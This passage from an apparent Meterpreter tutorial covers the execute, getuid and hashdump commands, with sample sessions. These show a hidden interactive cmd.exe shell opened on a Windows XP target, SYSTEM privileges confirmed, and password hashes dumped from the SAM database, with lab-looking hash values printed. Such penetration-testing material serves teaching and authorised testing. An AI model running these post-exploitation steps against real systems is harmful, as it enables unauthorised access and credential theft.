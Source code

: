 Please refer to the vim editor documentation for more advance use. `http://www.vim.org/`

# 11 - execute

The execute command runs a command on the target.

```
meterpreter > execute -f cmd.exe -i -H

Process 38320 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

# 12 - getuid

Running getuid will display the user that the Meterpreter server is running as on the host.

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

meterpreter >
```

# 13 - hashdump

The hashdump post module will dump the contents of the SAM database.

```
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::

meterpreter >
```

